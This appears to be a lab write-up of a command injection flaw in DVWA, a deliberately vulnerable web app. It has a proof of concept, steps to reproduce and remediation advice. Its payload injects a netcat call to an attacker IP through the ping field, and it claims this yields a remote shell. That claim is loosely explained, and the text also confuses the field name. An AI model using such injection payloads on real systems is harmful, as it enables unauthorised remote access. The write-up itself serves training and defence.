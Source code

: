 # DVWA - Command Injection Vulnerability - Remote Code Execution(RCE)

* Introduction:  

CMDI (Command Injection) is a web security vulnerability that allows an attacker to inject malicious Command into a website, which is without any validation interpreted as normal data and get executed by the Backend Systems. 

* Vulnerability Details:  

The vulnerable URL is: `http://10.10.25.252/cmdi`
An attacker can inject a malicious cmd query in the ping IP box.

* Proof of Concept (POC):  

In the User ID field, enter: `192.168.0.100 | nc 192.168.0.104 1337`
This will try to connect to the 192.168.0.104(Attacker IP) on Port 1337 and will give a shell access to the attacker where he can execute CMD on the website backend system.

* Impact:  

If Someone is able to inject a malicious Code in the Website and able to get a Remote Code Execution Exploit, then he can access the system on which the website he been hosted. He can retrieve critical data from the system or can use that as the launchpad for pivoting and attacking other system in the network.

* Steps to Reproduce:

1. Log in as a user on url [http://10.10.25.252/login.php]  
2. Visit the Command Injection Section.  
3. Enter the following payload into the Ping IP field: `192.168.0.100 | nc 192.168.0.104 1337`

* Recommendation:  

1. Implement output encoding for harmful characters to prevent the interpretation of user input as code.  
2. Implement a Strong & Proper Validation  
3. Regularly scan the application for Command Injection vulnerabilities.


* Attachments:  

![cmd1](<screenshots/Screenshot 2025-05-26 170426.png>)  
![cmd2](<screenshots/Screenshot 2025-05-27 111816.png>)